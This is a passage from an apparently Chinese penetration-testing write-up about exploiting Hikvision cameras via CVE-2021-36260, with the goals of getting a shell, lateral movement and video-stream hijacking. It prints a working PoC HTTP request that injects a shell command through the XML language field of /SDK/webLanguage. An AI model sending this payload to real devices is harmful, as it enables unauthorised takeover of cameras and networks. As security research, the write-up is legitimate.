 - 3. 上传并覆盖原有数据库  
  
- 4. 尝试登录  
  
- 5. 新建用户  
  
- 6. 再次修改数据库  
  
- 7. 权限测试  
  
- 8. 通用性延伸  
  
- 0x07 浏览数据库  
  
- 0x08 赠送设备说明  
  
- 往期文章  
  
## 0x00 简介   
  
在一次服务项目中，涉及到对海康威视摄像头的攻击利用，要求获取摄像头的 shell，建立代理，之后做两件事  
- 内网横向攻击  
  
- 劫持视频流  
  
由于环境中的海康威视的摄像头系统版本本身存在漏洞，所以正常来说应该不难，但找到了我们应该是遇到了什么问题，经过测试发现海康威视对设备的 shell 进行了定制，进行了各种功能阉割  
  
接下来我们探索一下这种受限的 shell 如何突破  
> 由于现场环境只提供了一小段时间，而且海康威视的系统似乎不是很容易用虚拟机进行搭建，为给大家提供最真实的体验，我特意买了一个海康威视的设备进行测试，型号 DS-2CD2310-I  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EScDibGbxfDVA8Y204A6Gcx4Fv0M9BfEfZib3Vmmea3LXqCHLUPEicK8LA/640?wx_fmt=jpeg&from=appmsg "")  
## 0x01 CVE-2021-36260   
> 漏洞公告  
> https://www.hikvision.com/cn/support/CybersecurityCenter/SecurityNotices/20210919/  
  
> 漏洞分析文章  
> https://kms.app/archives/399/  
> http://f0und.icu/article/31.html  
  
> PoC 地址  
> https://github.com/Cuerz/CVE-2021-36260  
> https://github.com/Aiminsun/CVE-2021-36260  
  
  
简单来说就是系统通过 web 方式以 xml 格式传递标签，标签解析过程中没有做完善的安全验证，导致在后台命令拼接过程中造成了命令注入  
  
PoC 数据包如下  
```
PUT /SDK/webLanguage HTTP/1.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: x.x.x.x
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US,en;q=0.9,sv;q=0.8
Content-Length: 71

<?xml version="1.0" encoding="UTF-8"?><language>$(ls -l>webLib/c)</language>

```  
  